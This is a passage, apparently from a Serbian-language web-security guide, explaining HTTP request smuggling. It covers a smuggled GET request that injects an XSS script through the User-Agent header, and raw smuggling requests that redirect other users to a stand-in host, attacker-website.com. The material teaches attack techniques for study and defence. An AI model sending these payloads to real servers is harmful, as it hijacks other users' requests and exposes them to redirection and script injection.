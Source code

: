 Ovaj payload je struktuiran da iskoristi ranjivost na sledeći način:

1. Pokretanje `POST` zahteva, naizgled tipično, sa zaglavljem `Transfer-Encoding: chunked` kako bi označili početak smugglinga.
2. Nastavak sa `0`, označavajući kraj chunked tela poruke.
3. Zatim se uvodi smuggled `GET` zahtev, gde je zaglavlje `User-Agent` injektovano skriptom, `<script>alert(1)</script>`, pokrećući XSS kada server obradi ovaj naredni zahtev.

Manipulacijom `User-Agent`-a putem smugglinga, payload zaobilazi normalna ograničenja zahteva, iskorišćavajući tako ranjivost Reflected XSS na nekonvencionalan, ali efikasan način.

### Iskorišćavanje On-site Preusmeravanja sa HTTP Request Smuggling <a href="#exploiting-on-site-redirects-with-http-request-smuggling" id="exploiting-on-site-redirects-with-http-request-smuggling"></a>

Aplikacije često preusmeravaju sa jednog URL-a na drugi koristeći ime hosta iz zaglavlja `Host` u URL-u preusmeravanja. Ovo je često kod web servera poput Apache i IIS. Na primer, zahtevanje foldera bez kosa crta na kraju rezultuje preusmeravanjem koje uključuje kosu crtu:

```
GET /home HTTP/1.1
Host: normal-website.com
```

Rezultati su:

```
HTTP/1.1 301 Moved Permanently
Location: https://normal-website.com/home/
```

Iako na prvi pogled bezopasno, ovaj postupak može biti manipulisan korišćenjem HTTP zahteva za krijumčarenje kako bi se korisnici preusmerili na spoljni sajt. Na primer:

```
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Length: 54
Connection: keep-alive
Transfer-Encoding: chunked

0

GET /home HTTP/1.1
Host: attacker-website.com
Foo: X
```

Ova prokrijumčarena zahtev može uzrokovati da sledeći obrađeni korisnički zahtev bude preusmeren na veb lokaciju kojom upravlja napadač:

```
GET /home HTTP/1.1
Host: attacker-website.com
Foo: XGET /scripts/include.js HTTP/1.1
Host: vulnerable-website.com
```
